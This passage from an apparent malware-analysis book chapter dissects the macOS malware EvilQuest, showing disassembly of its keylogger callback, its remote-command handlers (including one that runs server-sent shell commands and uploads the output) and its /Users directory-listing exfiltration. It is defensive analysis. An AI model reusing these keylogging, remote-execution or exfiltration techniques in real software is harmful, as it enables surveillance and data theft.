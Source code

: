 ```
reveals it’s converting the keypress (a numeric key code) to a string via a call to a helper function named `kconvert`. However, instead of logging this captured keystroke or exfiltrating it directly to the attacker, it simply prints it out locally (Listing 11-53):    ``` int process_event(...) {    ...     keycode = kconvert(CGEventGetIntegerValueField(keycode, 0x9) & 0xffff);    printf("%s\n", keycode); ```    Listing 11-53: The keylogger’s callback function, `process_event`    Maybe this code is still a work in progress.    ### react_ping (0x10)    The next command, `react_ping`, is invoked if the malware receives a `0x10` from the server (Listing 11-54). The `react_ping` first decrypts the encrypted string, `"1|N|2P1RVDSH0KfURs3Xe2Nd0000073"`, and then compares it with a string it has received from the server:    ``` react_ping: 0x000000010000a500    push      rbp         0x000000010000a501    mov       rbp, rsp ...  0x000000010000a517    lea       rax, qword [a1n2p1rvdsh0kfu] ; "1|N|2P1RVDS..." ... 0x000000010000a522    mov       rdi, rax 0x000000010000a525    call      ei_str  ... 0x000000010000a52c    mov       rdi, qword [rbp+strFromServer] 0x000000010000a530    mov       rsi, rax 0x000000010000a536    call      strcmp ... ```    Listing 11-54: The core logic of the `react_ping` function    Using our decryptor library, or a debugger, we can decrypt the string, which reads “Hi there.” If the server sends the “Hi there” message to the malware, the string comparison will succeed, and `react_ping` will return a success. Based on this command’s name and its logic, it is likely used by the remote attack to check the status (or availability) of an infected system. This is, of course, rather similar to the popular `ping` utility, which can be used to test the reachability of a remote host.    ### react_host (0x20)    Next we find logic to execute a function named `react_host` if a `0x20` is received from the server. However, as was the case with the `react_start` function, `react_host` is currently unimplemented and simply returns `0x0`.    ### react_scmd (0x40)    The final command supported by EvilQuest invokes a function named `react_scmd` in response to a `0x40` from the server (Listing 11-55):    ``` react_scmd: 0x0000000100009e80    push       rbp 0x0000000100009e81    mov        rbp, rsp ...  0x0000000100009edd    mov        rdi, qword [command] 0x0000000100009ee1    lea        rsi, qword [mode] 0x0000000100009eec    call       popen ... 0x0000000100009f8e    call       fread ... 0x000000010000a003    call       eicc_serialize_request ... 0x000000010000a123    call       http_request ```    Listing 11-55: The core logic of the `react_scmd` function    This function will execute a command specified by the server via the `popen` API. Once the command has been executed, the output is captured and transmitted to the server via the `eicc_serialize_request` and `http_request` functions.    This wraps up the analysis of EvilQuest’s remote tasking capabilities. Though some of the commands appear incomplete or unimplemented, others afford a remote attacker the ability to download additional updates or payloads and execute arbitrary commands on an infected system.    ## The File Exfiltration Logic    One of EvilQuest’s main capabilities is the exfiltration of a full directory listing and files that match a hardcoded list of regular expressions. In this section we’ll analyze the relevant code to understand this logic.    ### Directory Listing Exfiltration    Starting in the main function, the malware creates a background thread to execute a function named `ei_forensic_thread`, as shown in Listing 11-56:    ``` rax = pthread_create(&thread, 0x0, ei_forensic_thread, &args); if (rax != 0x0) {    printf("Cannot create thread!\n");    exit(-1); }  ```    Listing 11-56: Executing the `ei_forensic_thread` function via a background thread    The `ei_forensic_thread` function first invokes the `get_mediator` function, described in the previous section, to determine the address of the command and control server. It then invokes a function named `lfsc_dirlist`, passing in an encrypted string (that decrypts to `"/Users"`), as seen in Listing 11-57:    ``` 0x000000010000170a    mov        rdi, qword [rbp+rax*8+var_30] 0x000000010000170f    call       ei_str ... 0x0000000100001714    mov        rdi, qword [rbp+var_10] 0x0000000100001718    mov        esi, dword [rdi+8] 0x000000010000171b    mov        rdi, rax 0x000000010000171e    call       lfsc_dirlist ```    Listing 11-57: Invoking the `lfsc_dirlist` function    The `lfsc_dirlist` function performs a recursive directory listing, starting at a specified root directory and searching each of its files and directories. After we step over the call to `lfsc_dirlist` in the following debugger output, we can see that the function returns this recursive directory listing, which indeed starts at `"/Users"` (Listing 11-58):    ``` # **lldb /Library/mixednkey/toolroomd** ...  (lldb) **b 0x000000010000171e** Breakpoint 1: where = toolroomd`toolroomd[0x000000010000171e], address = 0x000000010000171e  (lldb) **c**  * thread #4, stop reason = breakpoint 1.1 ->  0x10000171e: callq  lfsc_dirlist  (lldb)**ni**  (lldb) **x/s $rax** 0x10080bc00:   "/Users/user   /Users/Shared   /Users/user/Music   /Users/user/.lldb   /Users/user/Pictures   /Users/user/Desktop   /Users/user/Library   /Users/user/.bash_sessions   /Users/user/Public   /Users/user/Movies   /Users/user/.Trash   /Users/user/Documents   /Users/user/Downloads   /Users/user/Library/Application Support   /Users/user/Library/Maps   /Users/user/Library/Assistant   ... ```    Listing 11-58: The generated (recursive) directory listing    If you consult the disassembly, you’ll be able to see that this directory listing is then sent to the attacker’s command and control server via a call to the malware’s `ei_forensic_sendfile` function.    ### Certificate an
```